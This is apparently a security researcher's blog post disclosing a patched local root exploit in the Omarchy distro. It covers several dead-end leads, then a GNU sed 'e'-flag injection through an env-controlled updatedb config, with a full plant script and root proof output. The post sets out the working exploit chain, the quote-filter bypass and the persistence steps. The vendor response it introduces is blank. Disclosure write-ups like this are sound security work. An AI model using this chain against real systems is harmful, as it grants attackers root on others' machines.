

# Rooting Omarchy With Four Bytes
<time datetime="2026-09-07">Sep, 7 2026</time>

## Contents
- [Intro](#intro)
- [Recon](#recon)
    - [Where the Omarchy code actually lives](#where-the-omarchy-code-actually-lives)
    - [The AI-slop bins](#the-ai-slop-bins)
- [The Dead Ends](#the-dead-ends)
    - [launch-or-focus: RCE as myself](#launch-or-focus-rce-as-myself)
    - [webapp custom exec](#webapp-custom-exec)
    - [dev-link and the secure_path it hands you](#dev-link-and-the-secure-path-it-hands-you)
- [The Installer](#the-installer)
    - [locate.sh](#locate-sh)
    - [Defect 1: you pick the file root reads](#defect-1-you-pick-the-file-root-reads)
    - [Defect 2: unquoted into a root sed program](#defect-2-unquoted-into-a-root-sed-program)
    - [Why the filter fails](#why-the-filter-fails)
- [Getting It to Fire](#getting-it-to-fire)
- [Root](#root)
- [Disclosure](#disclosure)
- [The Fix](#the-fix)

## Intro

For context: [Omarchy](https://omarchy.org) is an Arch-based distro, maxed out
with skid brainrot levels ricing that makes you laugh, and is I think almost
entirely vibe coded.

People were finding vulns left and right and I felt a little fomo... so before I
get into it, heres the thesis:

> The bug wasn't exotic. An unprivileged file's contents get spliced, unquoted,
> into a `sed` program that runs as root during a routine update. The only
> "clever" part is a GNU `sed` escape that walks straight through the filter
> that's supposed to stop it.

## Recon

Headed to omarchy.org and downloaded the iso... WHICH WAS 5 POINT 8 FKING
GB BTW.

Booted it and it dropped me onto a plain Arch boot screen. Kinda funny
considering how much branding they do.

First thing I check is setuid binaries.

```bash
find / -xdev -type f -perm -4000 -ls 2>/dev/null
```

Nothing spicy. `sudo`, `su`, `pkexec`, the usual crowd. No Omarchy-added setuid
anywhere. So its gonna have to be in the *Omarchy configs/scripts*.

### Where the Omarchy code actually lives

`omarchy-shell.sh` refused to run without `OMARCHY_PATH` set, which was a nice
hint.

```bash
echo $OMARCHY_PATH
# /usr/share/omarchy
```

That directory is basically what they got on git. Every Omarchy-specific script
lives here and it's all on PATH. If I want an *Omarchy* vuln and not a
generic Arch one, this is the folder.

> Open ports by default were just dns/mdns noise plus a couple of IPP printer
> ports. Printers are famously fucky, but that's cups, not Omarchy (also Omarchy
> hardened cups-browsed 4 days before I was looking at all this)

### The AI-slop bins

The `bin/` scripts are where the Omarchy-specific logic is, and a lot of it reads
as AI generated. So I did the dumb effective thing:

```bash
cd bin
find . -type f -exec shellcheck {} 2>&1 >>shellcheck \;
```

I skimmed the whole pile of warnings looking for the classic shapes: unquoted
expansions near `eval`, `exec`, command substitution, anything root-adjacent.

## The Dead Ends

Before the good one, here were some of the leads I chased:

### launch-or-focus: RCE as myself

`bin/omarchy-launch-or-focus` has an unquoted `eval exec` at the bottom:

```bash
WINDOW_PATTERN="$1"
LAUNCH_COMMAND="${2:-"uwsm-app -- $WINDOW_PATTERN"}"
WINDOW_ADDRESS=$(hyprctl clients -j | jq -r --arg p "$WINDOW_PATTERN" '...|.address' | head -n1)

if [[ -n $WINDOW_ADDRESS ]]; then
  hyprctl dispatch "hl.dsp.focus(...)" ...
else
  eval exec setsid $LAUNCH_COMMAND
fi
```

You control `$2`, so `eval exec setsid $LAUNCH_COMMAND` will run whatever you
hand it. To reach the `else` you just need `WINDOW_ADDRESS` empty, which means
picking a window pattern that matches nothing. Trivially scriptable.

So it runs arbitrary commands... as *me*. I invoked the command, I passed the
argument, I got a shell as the same uid I started with. No boundary broken.
Moving on.

### webapp custom exec

`bin/omarchy-webapp-install` looked more promising because it *writes* things.
The default `Exec` line is escaped:

```bash
desktop_exec_arg() {
  escaped=$(printf '%s' "$1" \
    | sed -e 's/\\/\\\\/g' -e 's/"/\\"/g' -e 's/`/\\`/g' -e 's/\$/\\$/g' -e 's/%/%%/g')
  printf '"%s"' "$escaped"
}
```

Someone has def been through this and added the escaping eyesore. However, a
comment elsewhere tells us about `CUSTOM_EXEC`, the 4th argument, which skips
`desktop_exec_arg` entirely:

```bash
# Default Exec quotes the URL as one Exec-spec argument; the whole line then gets
# the file-syntax escaping below (unescaped first at read time per spec, so the
# layers compose). $CUSTOM_EXEC is a full command line, so it gets file-syntax only.
if [[ -n $CUSTOM_EXEC ]]; then
  EXEC_COMMAND=$CUSTOM_EXEC
else
  EXEC_COMMAND="omarchy-launch-webapp $(desktop_exec_arg "$APP_URL")"
fi
```

So if anything calls `omarchy-webapp-install` *non-interactively* with a 4th arg
built from attacker data, that's the jump.

So I grepped for a caller...



`omarchy-install-service-sunshine` sets a 4th arg! ...but to a hardcoded
constant.

```bash
SUNSHINE_ADMIN_EXEC="omarchy-launch-webapp $SUNSHINE_ADMIN_URL --ignore-certificate-errors"
```

Rip.

### dev-link and the secure_path it hands you

I thought this was the one for a minute. `omarchy-dev-link` points Omarchy at a
local checkout, and to do that it rewrites root's `secure_path`:

```bash
target=$(realpath -e "$1" 2>/dev/null) || {
  echo "Error: path does not exist: $1" >&2
  exit 1
}
# ...
{
  printf 'Defaults secure_path='
  sudoers_quote "$target/bin:$system_secure_path"
  printf '\n'
} >"$staged_sudoers"
# ...
sudo install -Dm440 -o root -g root "$staged_sudoers" "$sudoers_file"
```

It prepends `$target/bin`, a directory you pass as `$1`, to the PATH that
*every `sudo` command on the box resolves against*.

So in principle: drop a file named `systemctl` in `$target/bin`, and the next
`sudo systemctl restart foo` anyone types runs *your* script as root.

Their justification for this:

```bash
# sudo resolves a bare command name against secure_path, never the caller's
# PATH, so a dev-linked checkout is invisible to `sudo omarchy-*`: a command the
# package does not ship yet fails outright, and one it does ship silently runs
# the packaged copy while every unprivileged call runs the checkout. Prepending
# the checkout's bin keeps root on the code being edited — the same trust the
# link already extends to every system script Omarchy runs out of $OMARCHY_PATH.
```

> They say the checkout gets "the same trust the link already extends to every
> system script Omarchy runs out of `OMARCHY_PATH`."
>
> Bro..
>
> `OMARCHY_PATH` scopes to Omarchy's own tree. `secure_path` is the **global
> root** PATH for the **entire system**. Equating those two is how you end up
> prepending a user-writable dir to root's PATH and calling it a feature.

But on a default install, `OMARCHY_PATH` and its tree are root-owned, not
user-writable. The dev-link path only bites if you install Omarchy from a
checkout you already control, at which point you were already root during
install :/

## The Installer

Getting a little bored, I wanted to look at stuff that ran on a stock VM
*without me choosing to run it*, which led me to the installer and migration
scripts.

### locate.sh

`install/config/locate.sh`, the thing that configures `plocate`'s `updatedb`.
First line:

```bash
UPDATEDB_CONF_PATH="${OMARCHY_UPDATEDB_CONF_PATH:-/etc/updatedb.conf}"
```

An environment variable decides which file this script reads. And then the same
script *rewrites* that file with `sed`:

```bash
# 25:
pruned=$(sed -nE 's|^[[:space:]]*PRUNEPATHS[[:space:]]*=[[:space:]]*"([^"]*)".*|\1|p' "$UPDATEDB_CONF_PATH" | tail -n 1)
# 28:
sed -i -E "s|^[[:space:]]*PRUNEPATHS[[:space:]]*=.*|PRUNEPATHS = \"/.snapshots${pruned:+ $pruned}\"|" "$UPDATEDB_CONF_PATH"
```

Look at line 28, `$pruned`, a value pulled out of the config file, is dropped
*unquoted* into the replacement half of a `sed` program. And this whole script
runs as root during a migration.

Two things have to be true for that to be exploitable:

### Defect 1: You pick the file root reads

`OMARCHY_UPDATEDB_CONF_PATH` is an env var. Unprivileged processes can set env
vars. The only question is whether it survives the trip into the root context.

Well, the migration that calls this script **hands it over on purpose**!

```bash
# migrations/1784809451.sh
# 5:
UPDATEDB_CONF_PATH="${OMARCHY_UPDATEDB_CONF_PATH:-/etc/updatedb.conf}"
# 23:
as_root env OMARCHY_UPDATEDB_CONF_PATH="$UPDATEDB_CONF_PATH" bash -euo pipefail "$locate_config_script"
```

`as_root` is `sudo` when you're not already root. So the migration explicitly
forwards my attacker-controlled env var across the privilege boundary and uses
it to tell root which file to read and rewrite.

### Defect 2: Unquoted into a root sed program

Now I control the file, which means I control `$pruned`, which means I control a
string that gets spliced raw into a `sed` command running as root.

`sed` is a tiny language, and two of its features are all I need:

- The `e` flag on an `s` command: **execute the pattern space as a shell command**
  (via `/bin/sh`). This is a real, documented GNU `sed` feature and it is exactly
  as scary as it sounds.
- The `w <file>` flag: write the pattern space to a file. I only need this to eat
  the leftover characters of the original program so the whole thing still parses.

My `PRUNEPATHS` value (the thing that becomes `$pruned`):

```bash
PRUNEPATHS = "\x22;id > /home/uiop/proof.txt;:|ew "
```

When that gets substituted into the template, the `sed` program root hands the
pattern space,

```bash
PRUNEPATHS = "/.snapshots ";id > /home/uiop/proof.txt;:
```

to `/bin/sh` **as root**. `PRUNEPATHS = "..."` fails (command not found, who
cares), then `id > proof.txt` runs, then `:` is a no-op to end cleanly. And
because root ran it, `proof.txt` comes out owned by root, containing `uid=0`!

### Why the filter fails

You're looking at line 25 thinking: the extraction regex is `([^"]*)`, it
literally can't capture a quote, so how does a `"` end up closing the string in
the command that `sh` eventually runs???

Simply put, the quote isn't in the file. The four bytes `\x22` are. At
*extraction* time (line 25) the value is the literal text `\x22`, no quote, so
`[^"]*` is perfectly happy and passes it through.

Then line 28 drops that text into a `sed` **replacement** string, and GNU `sed`
decodes `\xHH` escapes in replacements into their byte *at program-compile time*,
after the filter already ran, inside the program that's about to execute. `\x22`
becomes a real `"`. The filter and the decode happen at two different times, and
the escape smuggles the quote across the gap between them B)

## Getting It to Fire

Having the primitive is nice. You still need root to *run* the migration. Two
more facts make that easy.

**The migration markers are mine.** Omarchy tracks which migrations have run in
`~/.local/state/omarchy/migrations/`, a directory I own. Delete the marker for
`1784809451.sh` and it's "pending" again. (The state dir path is even
env-overridable via `OMARCHY_MIGRATION_STATE`, but I didn't need that.) So I can
re-arm an already-applied migration whenever I want. That same fact means an
attacker can also *suppress* a security-repair migration by pre-touching its
marker, which is its own problem.

**Omarchy nags you to run migrations.** At login, `omarchy-migrate-notify` throws
a *critical* "Pending Omarchy Migrations" desktop notification whose button opens
a terminal and runs `omarchy-migrate`. Clicking it is the exact thing Omarchy
is designed for you to do. And `omarchy update` runs `omarchy-migrate` on its own, right
after `pacman -Syu`, which already warmed your `sudo` timestamp, so no second
password prompt appears when my migration escalates.

So the full unprivileged plant is tiny:

```bash
#!/bin/bash
set -eu
DIR="$HOME/lpe"; mkdir -p "$DIR"
{
  printf 'PRUNE_BIND_MOUNTS = "no"\n'
  printf 'PRUNEPATHS = "\\x22;id > %s/proof.txt;:|ew "\n' "$DIR"
} > "$DIR/payload.conf"

# uwsm exports this into the whole graphical session on next login
mkdir -p "$HOME/.config/uwsm/env.d"
echo "export OMARCHY_UPDATEDB_CONF_PATH=$DIR/payload.conf" \
  > "$HOME/.config/uwsm/env.d/99-payload.conf"

# re-arm the migration (marker dir is mine)
rm -f "$HOME/.local/state/omarchy/migrations/1784809451.sh"
```

Drop that in `env.d` so the var is live for the whole session, reboot, and the
next time the victim does the thing they're told/used to do/doing, root runs `id
> proof`.

## Root

```sh
$ id
uid=1000(uiop) gid=1000(uiop) groups=1000(uiop),998(wheel)
# ...plant, reboot, apply the pending migration...
$ cat ~/lpe/proof.txt
uid=0(root) gid=0(root) groups=0(root)
$ stat -c '%U' ~/lpe/proof.txt
root
```

ヽ(°〇°)ﾉ

## Disclosure

Emailed `security@omarchy.org` with the affected files and line numbers, the
before/after, and the minimal `id > proof.txt` PoC.

They responded with the following:


## The Fix

I am now posting this blog since the patch is out
([omacom/omarchy#10579](https://github.com/omacom/omarchy/pull/10579)) which
deletes the entire fucking mechanism. `install/config/locate.sh` is gone. The
migration is gone. lol

> Check me out on the [Omarchy security credits
> page](https://omarchy.org/security/credits/#:~:text=uiop)!
